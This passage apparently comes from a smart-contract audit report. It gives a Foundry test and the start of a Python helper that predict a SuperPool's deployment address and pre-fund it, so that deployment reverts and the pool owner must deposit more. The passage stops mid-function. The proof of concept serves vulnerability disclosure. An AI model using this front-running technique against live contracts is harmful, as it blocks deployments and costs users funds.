 ```solidity
        address alice = vm.addr(8585);

        asset1.mint(address(this), 10 ether);
        asset1.mint(alice, 10 ether);
        asset1.mint(attacker, 100 ether);
        asset1.approve(address(superPoolFactory), 100 ether);
        
        vm.prank(attacker);
        asset1.transfer(predictedAddress, 1e5);

        vm.expectRevert(
            abi.encodeWithSelector(SuperPool.SuperPool_ZeroShareDeposit.selector, predictedAddress, 1e5)
        );
        address deployed = superPoolFactory.deploySuperPool(
            poolOwner, address(asset1), feeRecipient, 0, type(uint256).max, initialDepositAmt, "test", "test"
        );

        vm.expectRevert(
            abi.encodeWithSelector(SuperPoolFactory.SuperPoolFactory_TooFewInitialShares.selector, 999)
        );
        deployed = superPoolFactory.deploySuperPool(
            poolOwner, address(asset1), feeRecipient, 0, type(uint256).max, 1e8, "test", "test"
        );

        // now if Alice deposits 1e9, she can deploy a superPool
        deployed = superPoolFactory.deploySuperPool(
            poolOwner, address(asset1), feeRecipient, 0, type(uint256).max, 1e9, "test", "test"
        );

        assertEq(deployed, predictedAddress);
    }
```

Install the requirements:
```bash
sudo apt update
sudo apt install python3 python3-pip
pip install web3 eth-utils rlp
```

Make a file named `poc.py` in this path: `/test/core` (beside `Superpool.t.sol`) and add the following code in it:
```python
import subprocess
import rlp
from eth_utils import to_bytes
from web3 import Web3

def predict_contract_address(sender_address, nonce):
    sender_address_bytes = to_bytes(hexstr=sender_address)
    encoded_data = rlp.encode([sender_address_bytes, nonce])
    contract_address_bytes = Web3.keccak(encoded_data)[-20:]
    contract_address_hex = Web3.to_hex(contract_address_bytes)
    contract_address_checksum = Web3.to_checksum_address(contract_address_hex)
    return contract_address_checksum

def update_test_file(test_file_path, predicted_address):
    with open(test_file_path, 'r') as file:
        lines = file.readlines()

    with open(test_file_path, 'w') as file:
```